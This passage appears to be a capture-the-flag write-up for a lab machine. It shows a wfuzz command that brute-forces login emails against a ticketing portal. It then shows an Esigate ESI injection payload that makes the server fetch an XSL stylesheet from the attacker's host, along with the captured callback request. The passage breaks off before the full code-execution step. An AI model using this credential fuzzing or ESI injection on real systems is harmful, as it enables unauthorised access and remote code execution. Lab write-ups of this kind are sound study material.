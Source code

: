 Using **wfuzz** on the Ticking Portal:
```
wfuzz -u http://10.10.10.186:9001/login.php -w quick_emails.txt -d 'email=FUZZ&password=Quick4cc3$$'
```

Only the response code for the user _elisa[@]wink.co.uk_ is _302 Found_ and when trying to log in, it works and access to the Ticketing System with this user is gained.

There is the functionality to search for tickets and raise a ticket:

![Raise ticket](quick_web-4.png)

> NOTE: The ticket searching only works correctly on the hostname quick.htb and not with the IP

After raising some tickets, it will generate a ticket number:
```
Ticket NO : "TKT-1697" raised. We will answer you as soon as possible
```

After trying different web vulnerabilities and enumerating the application, there is only one thing that was not checked yet and that is **Esigate**, which was found earlier.

When searching for **Esigate vulnerabilities**, there is an [article of GoSecure](https://www.gosecure.net/blog/2019/05/02/esi-injection-part-2-abusing-specific-implementations/) that describes an **ESI (Edge Side Includes) Injection** that can lead to Remote Code Execution through a kind of **XML External Entity Injection**.

### Exploiting Esigate

Raising a ticket with the payload:
```
Title: test
Message: <esi:include src="http://10.10.14.9/test.xml" stylesheet="http://10.10.14.9/esi.xsl"> </esi:include>
```

After searching for the generated ticket number, the listener on my IP and port 80 will get an HTTP response from the site:
```
GET /esi.xsl HTTP/1.1
(...)
Referer: http://localhost:80/home.php
(...)
X-Forwarded-For: 10.10.14.9
X-Forwarded-Proto: http
X-Esigate-Int-Surrogate-Id: esigate
Surrogate-Capabilities: esigate="Surrogate/1.0 ESI/1.0 ESI-Inline/1.0 X-ESI-Fragment/1.0 X-ESI-Replace/1.0 X-ESI-XSLT/1.0 ESIGATE/4.0"
(...)
```